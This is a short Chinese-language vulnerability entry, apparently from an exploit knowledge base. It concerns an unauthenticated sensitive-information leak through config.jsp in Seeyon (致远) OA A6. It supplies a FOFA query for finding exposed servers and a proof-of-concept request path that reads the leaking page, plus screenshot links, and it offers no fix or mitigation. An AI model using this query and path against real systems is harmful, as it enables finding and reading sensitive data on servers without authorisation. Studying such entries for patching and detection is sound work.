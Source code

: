 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## FOFA

<a-checkbox checked>body="yyoa" && app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646054177060-6bebaa85-7683-4dd3-8120-39a633481f14.png)

验证POC

```javascript
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![img](../../../.vuepress/public/img/1646054254418-c88d4b28-ec92-4b79-80a4-7f9d4f1421fb.png)